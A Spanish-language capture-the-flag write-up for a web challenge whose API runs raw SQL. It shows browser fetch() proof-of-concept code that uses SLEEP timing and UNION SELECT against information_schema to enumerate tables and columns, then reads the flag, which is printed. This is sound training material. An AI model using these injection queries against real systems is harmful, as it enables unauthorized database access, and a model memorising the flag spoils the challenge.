


# Planets – SQL Injection (Blind/Union) Write‑Up

**CTF:** planets.ctf.zone
**Categoría:** Web / SQL Injection
**Fecha:** 09/08/2025

---

## 1. Descripción del reto

El sitio `https://planets.ctf.zone/` muestra tarjetas con planetas. En el HTML se observa un `fetch` a `/api.php` con `method: POST` y `Content-Type: application/x-www-form-urlencoded`, enviando literalmente `query=SELECT * FROM planets`. El endpoint devuelve JSON que el frontend renderiza (`name`, `image`, `description`).

**Hipótesis:** si el parámetro `query` se ejecuta sin sanitización, es posible inyectar SQL y leer otras tablas/columnas.

---

## 2. Reconocimiento

### 2.1. Confirmar ejecución directa y DBMS

**PoC (desde consola del navegador / DevTools):**

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT SLEEP(3)')
}).then(r => r.json()).then(console.log)
```

El delay confirma ejecución de SQL y que el motor entiende `SLEEP()` → **MySQL/MariaDB**.

### 2.2. Enumerar tablas

Aprovechando que el frontend espera `name,image,description`, se usa `UNION SELECT` cuyos primeros dos campos sean literales neutros (para que casen con las columnas originales) y que el tercer campo sea el SELECT que nos interesa.

```js
fetch('/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X' AS name, 'x' AS image, " +
    "(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1)"
  )
}).then(r=>r.json()).then(console.log)
```

Iterando `LIMIT/OFFSET` aparecen tablas del esquema; se identifica:.


*Salida del `UNION` mostrando `abandoned_planets` desde `information_schema`.*

### 2.3. Enumerar columnas de `abandoned_planets`

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X','x',(SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='abandoned_planets' LIMIT 1 OFFSET 0)"
  )
}).then(r=>r.json()).then(console.log)
```

Con `OFFSET` 0,1,2 se obtienen: `description`, `id`, `image`. 

---

## 3. Explotación

Lectura directa de la tabla identificada:

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT description, id, image FROM abandoned_planets')
}).then(r=>r.json()).then(console.log)
```

**Salida relevante (resumen):**


*Lectura directa de `abandoned_planets` con la flag en `description`.*

---

## 4. Flag

```
flag{9c4dea2d8ae5681a75f86070ac80a999}
```

---